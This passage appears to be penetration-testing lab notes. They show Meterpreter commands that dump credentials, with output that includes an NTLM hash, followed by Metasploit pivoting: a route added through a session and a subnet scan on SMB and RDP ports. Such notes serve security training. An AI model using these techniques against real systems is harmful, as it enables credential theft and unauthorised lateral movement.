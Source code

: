 ```hlt:11
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via 
```

Execute `creds_msv` to retrieve NTLM & LM hashes

```hlt:1
meterpreter > creds_msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============
Username  Domain  NTLM                              SHA1
--------  ------  ----                              ----
luiza     ITWK01  167cf9218719a1209efcfb4bce486a18  2f92bb5c2a2526a630122ea1b642c46193a0d837
```

### Pivoting with Metasploit
#### Setup
Connect to bindshell on target
Identify second net interface on target - `172.16.5.199`

```
C:\Users\luiza> ipconfig
```

Execute `met.exe` again on target to get a meterpreter session

BG shell session

Add the extra interface
```
msf6 exploit(multi/handler) > route add 172.16.5.0/24 12
[*] Route added
```

Confirm addition
```
msf6 exploit(multi/handler) > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.5.0         255.255.255.0      Session 12
```

#### Enumerate subnet for active hosts
`RHOSTS`-`172.16.5.0/24 for entire subnet
`RHOSTS - 172.16.5.200 for live host`
`PORTS - 445, 3389`

